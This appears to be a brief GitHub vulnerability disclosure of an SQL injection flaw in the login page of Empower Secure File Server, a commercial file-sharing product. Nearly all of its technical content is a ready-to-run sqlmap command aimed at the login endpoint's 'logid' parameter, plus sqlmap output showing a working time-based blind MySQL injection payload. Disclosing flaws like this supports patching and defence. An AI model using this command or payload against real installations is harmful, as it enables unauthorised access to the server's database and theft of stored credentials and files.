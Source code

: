 Empower SFS Sql Injection

https://www.mocomsys.com/mpower-sfs

Empower Secure File Server is a network-based secure file management solution that can use central storage to store/view/edit documents or files, and share or collaborate with multiple users. You can easily connect in various network environments through the web version and dedicated connectors.



## sqlmap:
```
sqlmap -u "url/mpowerweb_eng/login/log_check.php?mode=login" --data="logid=admin&pwd=jgCeiwZXnWM7LBm3jZU%3D" -p "logid" --risk 3
```
```
Parameter: logid (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (query SLEEP)
    Payload: logid=admin' OR (SELECT 9604 FROM (SELECT(SLEEP(5)))EDTP) AND 'nibW'='nibW&pwd=jgCeiwZXnWM7LBm3jZU=
```

![image-20240816123354426](https://github.com/shigophilo/CVE/blob/main/imgs/image-20240816123354426.png)
